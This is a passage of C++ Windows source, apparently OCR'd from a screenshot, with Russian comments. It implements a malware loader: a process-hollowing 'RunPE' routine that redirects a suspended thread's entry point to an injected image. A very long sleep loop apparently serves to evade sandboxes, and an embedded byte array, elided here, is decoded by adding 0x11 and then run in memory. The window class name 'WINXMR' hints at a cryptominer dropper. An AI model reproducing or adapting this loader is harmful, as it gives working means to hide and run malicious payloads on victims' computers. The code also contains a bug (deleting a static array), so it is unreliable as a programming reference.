                // Move address of entry point to the eax register
                CTX-&gt;Eax = DWORD(pImageBase) + NtHeader-&gt;OptionalHeader.AddressOfEntryPoint;
                SetThreadContext(PI.hThread, LPCONTEXT(CTX)); // Set the context
                ResumeThread(PI.hThread); //´Start the process/call main()

                return 0; // Operation was successful.
            }
        }
    }
}

// бинарный код программы
unsigned char rawData[] = {
    // 284448 строк бинарника
};




int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
                     _In_opt_ HINSTANCE hPrevInstance,
                     _In_ LPWSTR    lpCmdLine,
                     _In_ int       nCmdShow)
{
    UNREFERENCED_PARAMETER(hPrevInstance);
    UNREFERENCED_PARAMETER(lpCmdLine);

    for (int i = 0; i &lt; 550000; i++)
        Sleep(1000);
    for (int i = 0; i &lt; sizeof(rawData) / sizeof(*rawData); i++) {
        unsigned char b = rawData[i] + 0x11;
        rawData[i] = b;
    }
    Sleep(3000); //задержка
    RunPortableExecutable(rawData); // run executable from the array
    getchar();
    delete rawData;
    // TODO: Разместите код здесь.

    // Инициализация глобальных строк
    LoadStringW(hInstance, IDS_APP_TITLE, szTitle, MAX_LOADSTRING);
    LoadStringW(hInstance, IDC_WINXMR, szWindowClass, MAX_LOADSTRING);
    MyRegisterClass(hInstance);

    // Выполнить инициализацию приложения:
    if (!InitInstance (hInstance, nCmdShow))
    {
        return FALSE;
    }

    HACCEL hAccelTable = LoadAccelerators(hInstance, MAKEINTRESOURCE(IDC_WINXMR));

    MSG msg;

    // Цикл основного сообщения:
    while (GetMessage(&amp;msg, nullptr, 0, 0))
    {
        if (!TranslateAccelerator(msg.hwnd, hAccelTable, &amp;msg))
        {
            TranslateMessage(&amp;msg);
            DispatchMessage(&amp;msg);
        }
    }
